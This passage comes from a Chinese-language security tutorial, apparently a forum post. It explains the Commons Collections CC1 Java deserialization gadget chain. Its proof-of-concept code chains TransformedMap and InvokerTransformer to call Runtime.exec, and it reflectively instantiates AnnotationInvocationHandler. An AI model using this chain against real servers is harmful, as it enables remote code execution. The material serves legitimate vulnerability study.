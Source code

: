 ‍

搞清楚逻辑后，其实这个`MapEntry` 就是遍历Map的键值对的一个静态类，在以下代码中就会触发他的方法(其实就是重写了`Map#setvalue`方法)

```java
        for (Map.Entry entry:transformedMap.entrySet()){
            entry.setValue("aaa");
        }
```

那其实就可以得到，只要去对这个键值对进行`setValue`方法即可触发

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-03b15336ab8881fb1030004e9ea1291e311cff2a.png)

所以现在只要把我们的Runtime对象传入到value值即可触发任意方法调用

```java
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Runtime r = Runtime.getRuntime();
        HashMap<Object, Object> map = new HashMap<>();
        map.put("q","q");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
        for (Map.Entry entry:transformedMap.entrySet()){
            entry.setValue(r);
        }
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-db9631b1ef987ca5e88db1279cab498fc280d0c4.png)

那么我们后半条链子就连起来了，接下来就是去找哪个地方是存在`Entry`的遍历的，并且可以把对象传入的点

### `AnnotationInvocationHandler`

作者就找到了`jdk1.8.0_65\src\sun\reflect\annotation\AnnotationInvocationHandler.java` 中的 `readObject` 方法是调用了`setValue` ，那么其实已经找到`readObject`就非常好可以进行串联了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0906d5473efdace05187cdc0e9118f330f73554c.png)

那我们来看一下他的构造方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-827028a3b0d8eab8f3e9277636a0281c84ca3d3d.png)

也很简单，就是传一个注解和一个Map类，又因为他不是public类，所以必须得用反射去实例化他，那么就其实挺简单，就反射区实例化他即可，然后把我们设计好的`Entry`传给他即可

```java
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cl  =  c.getDeclaredConstructor(Class.class,Map.class);
        cl.setAccessible(true);
        cl.newInstance(Override.class,transformedMap);
```

但是这里仍然存在几个问题

- `Runtime`对象是不可以序列化的，需要用反射进行序列化
- `setValue`方法的参数貌似不可控
- 有两个if判断需要进去
